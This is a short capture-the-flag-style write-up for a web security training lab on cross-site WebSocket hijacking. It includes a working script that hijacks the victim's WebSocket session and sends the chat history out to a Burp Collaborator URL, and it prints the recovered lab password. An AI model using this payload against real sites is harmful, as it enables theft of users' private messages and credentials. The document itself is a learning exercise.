 # Lab: Cross-site WebSocket hijacking

Go to the live chat page and reload it. In the proxy websockets history tab, see that the READY command retrieves the past chat messages from the server. In the http history tab, see taht the handshake request does not have CSRF token.

Use the following exploit script with a url generated by burp collaborator:

```
<script>
    var ws = new WebSocket('wss://<lab-domain>.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://<collaborator-url>', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

Deliver this to the victim and poll for results. Review the chat history to find a message with the user's password being sent:  `No problem carlos, it&apos;s 0cn24mlx1qsm3wtiub8s`

Login as the user to complete the lab (`carlos:0cn24mlx1qsm3wtiub8s`)
